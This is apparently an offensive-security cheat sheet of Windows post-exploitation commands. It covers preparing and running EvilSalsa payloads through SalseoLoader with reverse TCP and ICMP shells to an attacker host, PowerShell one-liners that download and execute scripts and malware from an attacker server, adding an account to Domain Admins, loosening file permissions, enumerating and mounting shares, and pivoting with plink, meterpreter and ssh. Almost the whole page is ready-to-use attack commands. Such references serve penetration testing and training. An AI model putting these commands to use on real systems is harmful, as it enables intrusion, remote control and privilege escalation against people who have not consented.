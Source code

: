 ### EvilSalsa
#Preparing payloads
python EncrypterAssembly/encrypterassembly.py EvilSalsa.dll supersecretpass123 evilsalsa.dll.txt
EncrypterAssembly.exe EvilSalsa.dll supersecretpass123 evilsalsa.dll.txt
#Executing payload
SalseoLoader.exe password http://ATTACKER_IP/evilsalsa.dll.txt reversetcp ATTACKER_IP 9001
# Reverse icmp shell
python icmpsh_m.py "ATTACKER_IP" "VICTIM_IP"
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp ATTACKER_IP


## Miscellaneous

### Changing Permissions of a file
icacls text.txt /grant Everyone:F

### Downloading Files
IEX (New-Object System.Net.WebClient).DownloadString("http://ATTACKER_IP/rev.ps1")(New-Object System.Net.WebClient).DownloadFile("http://ATTACKER_SERVER/malware.exe", "C:\Windows\Temp\malware.exe")  Invoke-WebRequest "http://ATTACKER_SERVER/malware.exe" -OutFile "C:\Windows\Temp\malware.exe"

### Adding user to Domain admins
Add-DomainGroupMember -Identity 'Domain Admins' -Members morph3 -Verbose

### Base64 Decode
certutil -decode foo.b64 foo.exe

### Network Sharing
# Local share
net share
wmic share get /format:list
# Remote share
net view
net view \\dc.ecorp.foo /all
wmic /node: dc.ecorp.foo share get
# Mounting share
net use Z: \\127.0.0.1\C$ /user:user password123

### Port Forwarding
#Port forward using plink 
plink.exe -l user -pw pass123 192.168.1.56 -R 8080:127.0.0.1:8080
#Port forward using meterpreterportfwd
add -l attacker-port -p victim-port -r victim-ip
portfwd add -l 3306 -p 3306 -r 192.168.1.56
# Dynamic Pivoting using ssh with proxy chain 
ssh -D 9050 root@target 
# Port forwarding with SSH 
ssh -L localhost:8080:target:8080 root@targetip

